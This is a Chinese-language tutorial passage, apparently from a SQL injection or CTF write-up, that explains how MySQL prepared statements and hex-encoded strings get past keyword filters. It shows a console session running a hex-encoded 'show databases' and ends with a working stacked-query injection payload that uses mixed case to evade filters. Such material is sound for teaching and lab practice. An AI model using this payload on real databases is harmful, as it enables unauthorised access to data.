 

预定义语句也可以通过变量进行传递:



```sql
SET @tn = 'hahaha'; //存储表名
SET @sql = concat('select * from ', @tn); //存储SQL语句
PREPARE x from @sql; //预定义SQL语句
EXECUTE x; //执行预定义SQL语句
(DEALLOCATE || DROP) x; //删除预定义SQL语句
```



（2）MySql 预处理配合十六进制绕过关键字



基本原理如下：



```sql
mysql> select hex('show databases');
+------------------------------+
| hex('show databases;')       |
+------------------------------+
| 73686F7720646174616261736573 |
+------------------------------+
1 row in set (0.01 sec)

mysql> set @b=0x73686F7720646174616261736573;
Query OK, 0 rows affected (0.01 sec)

mysql> prepare test from @b;
Query OK, 0 rows affected (0.02 sec)
Statement prepared

mysql> execute test;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| challenges         |
| mysql              |
| performance_schema |
| security           |
| test               |
+--------------------+
6 rows in set (0.02 sec)
```



即payload类似于



```sql
1';sEt @a=0x73686F7720646174616261736573;PRepare aaa from @a;execute aaa;#
```

